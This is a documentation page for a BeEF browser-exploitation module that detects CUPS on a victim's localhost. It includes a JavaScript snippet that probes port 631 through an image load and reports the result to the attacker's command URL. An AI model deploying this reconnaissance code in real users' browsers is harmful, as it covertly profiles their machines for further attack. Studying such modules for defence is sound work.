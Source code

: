 ## Summary

* **Objective**: Detect CUPS on localhost
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/host/detect_cups)

## Internal Working

This module attempts to detect Common UNIX Printing System (CUPS) on localhost on the default port 631.

Uses image tags:

```js
var result = "Not Installed";
var dom = document.createElement('b');
var img = new Image;
img.src = "http://<%= @ipHost %>:<%= @port %>/images/cups-icon.png";

img.onload = function() {
        if (this.width == 128 && this.height == 128) result="Installed";
        beef.net.send('<%= @command_url %>', <%= @command_id %>,'proto=http&ip=<%= @ipHost %>&port=<%= @port %>&cups='+result, beef.are.status_success());
        dom.removeChild(this);
}

//...
dom.appendChild(img);

```

## Feedback

